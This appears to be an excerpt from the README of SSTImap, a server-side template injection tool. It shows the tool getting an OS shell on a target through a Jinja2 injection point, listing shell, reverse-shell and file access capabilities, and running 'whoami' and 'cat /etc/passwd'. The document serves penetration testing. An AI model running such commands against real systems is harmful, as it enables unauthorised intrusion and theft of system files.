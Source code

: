 ```
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./sstimap.py -u https://example.com/page?name=John --os-shell

███████╗███████╗████████╗ ▀█▀                                           
██╔════╝██╔════╝╚══██╔══╝═╗ ╔═                                          
███████╗███████╗   ██║    ║ ║                                        
╚════██║╚════██║   ██║    ║ ║                                  
███████║███████║   ██║    ╚╦╝                               
╚══════╝╚══════╝   ╚═╝     │                
███████╗███╗   ███╗██╗   ██╗██╗      █████╗ ████████╗ ██████╗ ██████╗ 
██╔════╝████╗ ████║██║   ██║██║     ██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗
█████╗  ██╔████╔██║██║   ██║██║     ███████║   ██║   ██║   ██║██████╔╝ 
██╔══╝  ██║╚██╔╝██║██║   ██║██║     ██╔══██║   ██║   ██║   ██║██╔══██╗             
███████╗██║ ╚═╝ ██║╚██████╔╝███████╗██║  ██║   ██║   ╚██████╔╝██║  ██║              
╚══════╝╚═╝     ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
[*] Version: 1.0.0
[*] Author: Wrench
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ whoami
root
posix-linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/
